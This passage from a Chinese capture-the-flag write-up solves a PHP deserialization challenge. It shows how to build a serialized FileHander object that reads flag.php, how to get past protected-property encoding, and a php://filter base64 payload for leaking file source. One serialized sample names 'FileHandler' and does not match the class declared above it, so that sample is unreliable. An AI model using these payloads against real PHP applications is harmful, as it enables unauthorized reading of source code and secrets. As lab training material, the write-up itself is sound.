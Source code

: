 ```
private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }
```

再用了``output()``函数输出。

构造payload：

```
<?php
class FileHander {
    protected $op = 2;
    protected $filename = 'flag.php';
    protected $content;
}

echo serialize(new FileHander);
//O:10:"FileHander":3:{s:5:"*op";i:2;s:11:"*filename";s:8:"flag.php";s:10:"*content";N;}
?>
```

发现得到的payload不能得到flag，然后这里又涉及到了另一个知识点，``private``、``protected``在经过序列化时会生成不可打印字符，所以我们可以通过改为``public``来绕过。

```
<?php
class FileHander {
    public $op = 2;
    public $filename = 'flag.php';
    public $content;
}

echo serialize(new FileHander);
//O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";N;}
?>
```

也可以通过对``file_get_contents()``函数对文件进行读取，可以利用``php:filter``伪协议进行读取。将``filename``赋为：``php://filter/read=convert.base64-encode/resource=flag.php``，输出的结果为：``O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;}``。将值赋予str，结果会直接显示在页面上，base64解码即可。

